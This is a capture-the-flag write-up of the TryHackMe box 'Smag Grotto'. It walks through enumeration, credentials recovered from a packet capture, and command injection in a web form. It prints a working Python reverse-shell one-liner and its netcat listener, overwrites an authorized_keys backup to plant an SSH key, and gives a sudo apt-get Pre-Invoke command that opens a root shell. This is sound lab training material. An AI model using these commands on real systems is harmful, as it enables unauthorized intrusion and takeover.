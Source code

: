 # 'Smag Grotto' box writeup
## Smag Grotto is a CTF box written by JakeDoesSec and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [Crontab service](https://opensource.com/article/17/11/how-use-cron-linux), [apt-get package system tool](https://itsfoss.com/apt-get-linux-guide/) and [APT Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)

# ![bg](images/background.png?raw=true "Title")

## Foothold
+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.163.139``

+ **There are 2 services running on default ports: ssh and http**

![1](images/nmap_scan_sg.jpg?raw=true "nmap_scan")

+ **Visiting the http site, we are welcomed by a big Smag title with a small announce from the developer of the site**

![2](images/site_sg.png?raw=true "Site")

+ **Let's perform a gobuster to search some directories on the website. I'm using the common.txt wordlist, a default wordlist on kali machines**

``gobuster dir -u http://10.10.163.139/ -w /usr/share/wordlists/dirb/common.txt``


![3](images/dirbuster.jpg?raw=true "gobuster")

+ **We found a mail directory, so let's check it out into the web browser. It seems to be like a mail message left on the website to notify a future migration. The mail was writen with the intention to arrive to the admin of the page**

![4](images/mail_page.png?raw=true "mail_page")

+ **Inside the first Network Migration box of the message, we can spot the dHJhY2Uy.pcap, a linked file which seems to be a packet data of this network. Let's download that file and go into a Wireshark analysis of this packet.**

![5](images/wiresh_packet.png?raw=true "wireshark_analysis")

+ **We can spot a POST login request inside the data packet, so let's follow TCP stream into this packet**

![6](images/tcp_stream.png?raw=true "tcp_stream")

+ **Bingo! We found some credentials in plain text form. Looking in the picture above us, we can see the Host that has been used in the POST login request: development.smag.thm. If we are trying to access that page, we're having trouble finding that site... But, judging on the mails that the developers shared between them, the website suffered a migration, so let's just try to change our hosts list to override the DNS**

``sudo vim /etc/hosts``

![7](images/hosts.jpg?raw=true "hosts")

+ **Now, let's try to access the development.smag.thm/login.php page so we can use our credentials**

![7](images/login1.jpg?raw=true "login")

+ **We are welcomed by a big title 'Enter a command' with a box below. I tried some several linux commands like ls, whoami, etc, but i can't see no output. So i've tried to download a file on the box machine with the wget, hosting a simple python server on mine, just to check if the commands are available and if it's worth trying a reverse shell.**

![8](images/wget.jpg?raw=true "wget")

## User escalation
+ **It's all working, we get the GET request so let's move on to a reverse shell, using python3. I've tried with python but not working, because probably on the machine a python3 is installed.**
  **Firstly, listen to the 1234 port**
``nc -lvnp 1234``

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

 **And here it's our shell, connected with the www-data user. Let's upgrade it to an interactive one**

``python3 -c 'import pty; pty.spawn("/bin/bash")'``

![9](images/entered(2).jpg?raw=true "shell")

+ **Let's look into the crontab file and understand it. We have a cron which tells us that the root user is making an overwriting action every minute through the cat command from the** jake_id_rsa.pub.backup **file to the** authorized_keys **file of the jake user. This means that if we can modify the jake_id_rsa.pub.backup content, we can connect with the jake user on the ssh service.**

![10](images/crontab.jpg?raw=true "crontab")

 **Luckily, the** jake_id_rsa.pub.backup **file has writing permission for every user.**
 
![11](images/fileperm.jpg?raw=true "fileperm")

+ **Let's copy our public key into the remote box.**

``cat /home/kali/.ssh/id_rsa.pub``

``echo "your_id_rsa.pub" > /opt/.backups/jake_id_rsa.pub.backup``

![12](images/copy_id.jpg?raw=true "copy_id")

![13](images/copy_id_2.jpg?raw=true "copy_id_2")


+ **Now, we have overwritten the public ssh and we can use public key authentication. Voila, there's our user flag**

![13](images/user_flag.jpg?raw=true "user_flag")

## Root Escalation

+ **Running the** ``sudo -l`` **command, we can see the allowed commands for the user jake. He has a powerful accessible command to run: apt-get, which is the command line tool to interact with this packaging system.**

![14](images/sudola.jpg?raw=true "sudo -l")

+ **Exploiting the apt-get vulnerability, we can use the tool to gain a root access, using the update option and simultanously invoking the bash into the root account**

``sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash``
 
 ![15](images/root_flag(1).jpg?raw=true "root_flag")
 
 **So here we got the root flag. It was a funny box with an interesting vulnerability based on apt tool, a very useful box for beginners and all the thanks goes to JakeDoesSec**

